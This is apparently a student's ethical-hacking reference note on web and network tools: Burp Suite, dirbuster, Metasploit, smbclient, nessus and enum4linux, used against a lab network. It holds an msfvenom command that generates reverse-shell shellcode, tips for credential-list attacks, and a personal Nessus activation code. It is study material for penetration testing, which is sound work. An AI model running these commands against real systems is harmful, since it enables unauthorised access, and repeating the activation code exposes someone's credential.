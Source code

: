 ```yaml
---
tags:
- type/reference/ethical-hacking
- topic/tools/hacking
---
```


#### Butp suite
- Burp suite is a web proxy with its own cert allowing it to see TLS encrypted data
- To get started, you need to start burp suite, and a browser (preferably firefox) and go to the browser settings
	- Add a proxy that runs on localhost and port 8080
	- Visit `https://burp/` and download the CA Certificate
	- Import the certificate to firefox via it's privacy and security tab, then certificates, Authorities 
- Burp Tabs
	- Proxy
		- Allows you to turn on intercept to see and manipulate each request and response that burp is intercepting before forwarding it to its destination
	- Target
		- Shows you all the pages discovered from all the traffic that got intercepted by the proxy
		-  The target tab doesn't always pickup all traffic right away and multiple refreshes may be required
		- Target allows you to also set a scope as to what should be intercepted
	- Repeater
		- The Repeater shows you your response to a request in real time, and allows you to modify it before it's sent
	- Intruder
		- You can highlight and add parameters
			- Example: email and password if you're logging into a website
		- You can select different **attack types**
			- **Sniper** is the most common and uses one parameter ^837b27
		- You can use the **pitchfork** attack type with multiple params ^cbb090
			- The pitchfork attack takes in lists of data, such as a list of usernames and a list of passwords
- You can right click an intercepted packet from any tab, and send it to other tabs like the Repeater 
#### nikto
- Web vulnerability scanning tool
- Basic syntax: `nikto -h http(s)://ip_address`
- Can be blocked if the application has good security/firewall
#### dirbuster
- Run with `dirbuster &` to keep it running in the background
- Provide it with a URL + port. E.g `http://192.168.57.4:80/`
- You need to pick a wordlist file. 
	- On kali, you can browse to `/usr/share/wordlists/dirbuster/` and pick a wordlist file from the ones provided
	- Remember that buster tools like dirbuster and gobuster rely on wordlists with well-known directory names such as http://website/admin to verify which directories are accessible
- You can also specify file extensions
	- Apache uses .php
	- Microsoft websites (IAS) use .asp and .aspx
	- You can also add other extensions such as (.txt .zip .rar .pdf .docx), although that will increase the search time
- An example full path with file extensions would be http://website/admin.php
- You can view results in a list or tree view, and interact with pages to view them in the browser while the scan is still active
#### dirb
#### gobuster
#### Metasploit
- An exploitation framework that can also do enumeration and more
- Typing a `search` with a word like `smb` into metasploit will show all the available tools it has for it
- The name of the tool will start with its category, e.g 'auxiliary' which is meant for enumeration, followed by what it does exactly
- You can then say `use` and the name or number of the tool that you want to use
- Typing info will show you `info` about the tool and `options` will show you available usage options
	-  ![Payload Options](assets/Screenshot_2025-09-04_16-24-56.png)
- Tools will normally require you `set` an RHOST(S) which is the target(s) of your attack
	- You can set pretty much everything in general such as the LHOST, ports, and the payload `set payload linux/x86/shell_bind_tcp`
- Once your options are set you can then `run` or `exploit` to use the tool
- Typing `options` after a failed exploitation attempt may provide you with payload options
- This commands `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.57.6 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"` is used during [[Buffer Overflow index|Buffer Overflow]] at the [[Buffer Overflow Steps#^0dee88|shellcode generation]] step using the msfvenom tool from metasploit to gain reverse shell access to the target windows machine
	- This is a reverse shell attack, so we need to send our own machine's IP and port to the target.
	- Adding an `EXITFUNC` makes the attack more stable
	- `-f`means file type which is set to `c`as the output file
	- `-a`is our architecture
	- `-b`is for bad characters that should be used which we found here [[Buffer Overflow Steps#^d6154c|Buffer Overflow stes#Finding Bad Characters]]
	- ![Generated ShellCode](assets/Screenshot_2025-09-13_05-14-49.png)
#### smbclient
- Not exactly a hacking tool, but it can connect to an smbserver's file share
- If you can anonymously connect to an smbserver you can get an idea of the network's file structure, and may find important files
- `smbclient -L \\\\192.168.57.4\\` will list all files
- If you find a file `smbclient \\\\192.168.57.4\\ADMIN$` will attempt to connect to the file
#### nessus
- A vulnerability scanner tool
- Search for nessus download on google, then download and install the relevant file
- Start nessus by typing `sudo systemctl start nessusd.service` or `sudo /etc/init.d/nessusd start`
- Go to https://localhost:8834 to use nessus
- My activation code that I never got to use NNAH-LFFS-PZXP-KTB5-P38X
- Works on private networks only with the free edition
- Don't rely on nessus's reported vulnerability on your report, rather, confirm it, and take a screenshot of the actual vulnerability
#### enum4linux
- A powerful enumeration tool
- Give it an ip and it will do the rest